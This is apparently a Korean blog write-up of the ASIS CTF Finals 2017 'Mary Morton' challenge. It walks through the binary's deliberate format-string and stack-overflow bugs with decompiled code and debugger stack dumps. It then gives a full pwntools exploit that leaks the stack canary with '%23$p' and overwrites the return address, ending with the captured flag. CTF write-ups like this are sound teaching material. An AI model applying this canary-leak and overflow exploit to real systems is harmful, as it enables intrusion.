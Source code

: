 ```yaml
---
layout: post
title: "ASIS CTF Finals 2017 - Mary Morton"
date: 2018-11-08
excerpt: "Simple FSB + BOF"
tags: [write-up]
comments: true
---
```

zerostorage를 풀다가 corruption 때문에 멘탈이 나가서 쉬운거 하나 잡았습니다..
* * *
```
~/pwn/prob/mary_morton st4nw@trust 20s
❯ checksec mary_morton 
[*] '/home/st4nw/pwn/prob/mary_morton/mary_morton'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
우선 SSP가 적용되어 있는 점을 고려해야할 것 같습니다.

```
~/pwn/prob/mary_morton st4nw@trust
❯ ./mary_morton
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle
```
메인 메뉴에서는 1번 Stack BOF와 2번 FSB 중 하나를 고를 수 있습니다.

#### 1. Stack Bufferoverflow
```c
unsigned __int64 sub_400960()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return __readfsqword(0x28u) ^ v2;
}
```
0x88 크기의 버퍼에 0x100 만큼 입력받아 BOF가 발생합니다.

canary를 leak하면 eip를 덮을 수 있을 것 같습니다.

#### 2. FSB
```c
unsigned __int64 sub_4008EB()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 128uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}
```
FSB를 대놓고 줍니다.

### Exploit

canary를 leak하면 eip를 덮을 수 있기에 FSB로 leak를 하는 것이 우선입니다.

이를 위해 FSB 이후 canary 값을 검증하는 루틴에 bp를 걸고 분석했습니다.

```
pwndbg> r
Starting program: /home/st4nw/pwn/prob/mary_morton/mary_morton 
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
2
%p
0x7fffffffded0
```
%p를 입력한 결과 0x7fffffffded0를 출력합니다. 스택에서 이 값과 canary가 얼마나 떨어져있는지 알아보겠습니다.

```
► 0x40094a    mov    rax, qword ptr [rbp - 8]
  0x40094e    xor    rax, qword ptr fs:[0x28]
  0x400957    je     0x40095e
pwndbg> ni
pwndbg> p $rax
$5 = -8380890034417386496
```
rax(canary)는 -8380890034417386496 = 0x8BB118EAE4F0BC00 입니다. 현재 스택의 값을 보겠습니다.

```
.
.
0x7fffffffde90:	0x00007fffffffded0	0x0000000000000000 -> printed data
0x7fffffffdea0:	0x0000000000000000	0x00007fffffffdeb0
0x7fffffffdeb0:	0x0000000000000000	0x00007ffff7ffe168
0x7fffffffdec0:	0x0000000000000003	0x0000000000400949
0x7fffffffded0:	0x00000000000a7025	0x0000000000000000
0x7fffffffdee0:	0x0000000000000000	0x0000000000000000
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000000000	0x0000000000000000
0x7fffffffdf20:	0x0000000000000000	0x0000000000000000
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x0000000000000000	0x0000000000000000
0x7fffffffdf50:	0x0000000000000000	0x8bb118eae4f0bc00 -> canary
0x7fffffffdf60:	0x00007fffffffdfa0	0x00000000004008b8
0x7fffffffdf70:	0xff00000000000000	0x00007fffffffe098
0x7fffffffdf80:	0x00007fffffffe088	0x0000000100400730
0x7fffffffdf90:	0x00000002ffffe080	0x8bb118eae4f0bc00 -> canary
0x7fffffffdfa0:	0x0000000000400a50	0x00007ffff7a2d830
.
.
```
출력된 값에서 얼마 떨어지지않은 곳에 canary가 두 군데 존재합니다.

FSB에 입력할 값으로 %23$p 혹은 %31$p을 입력하면 leak이 가능합니다.

system("/bin/cat flag")하는 함수가 존재하고 canary의 값까지 구했으니 이제 남은 것은

\1. Stack BOF에서 터지는 BOF로 간단하게 플래그를 읽는 것입니다.

exp.py
```python
from pwn import *

p = process('./mary_morton')
context.log_level = 'debug'

p.recvuntil('3. Exit the battle')

payload = "%23$p"

p.sendline('2')
p.sendline(payload)

p.recv()
p.recvuntil('0x')
canary = int(p.recvline(), 16)

log.info('Canary : ' + str(hex(canary)))

p.recvuntil('3. Exit the battle')

payload = "A" * 136

payload += p64(canary)
payload += "A" * 8
payload += p64(0x4008da)

p.sendline('1')
p.sendline(payload)

p.interactive()
```

```
~/pwn/prob/mary_morton st4nw@trust
❯ python exp.py
[+] Starting local process './mary_morton': pid 9000
[DEBUG] Received 0x8f bytes:
    'Welcome to the battle ! \n'
    '[Great Fairy] level pwned \n'
    'Select your weapon \n'
    '1. Stack Bufferoverflow Bug \n'
    '2. Format String Bug \n'
    '3. Exit the battle \n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x6 bytes:
    '%23$p\n'
[DEBUG] Received 0x5a bytes:
    '0xdad0fa5f85ddaf00\n'
    '1. Stack Bufferoverflow Bug \n'
    '2. Format String Bug \n'
    '3. Exit the battle \n'
[*] Canary : 0xdad0fa5f85ddaf00
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xa1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 af dd 85  5f fa d0 da  │AAAA│AAAA│····│_···│
    00000090  41 41 41 41  41 41 41 41  da 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  0a                                                  │·│
    000000a1
[*] Switching to interactive mode
 
[DEBUG] Received 0x8c bytes:
    '-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[DEBUG] Received 0x2f bytes:
    'ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}\n'
ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}
[*] Got EOF while reading in interactive
$  
```
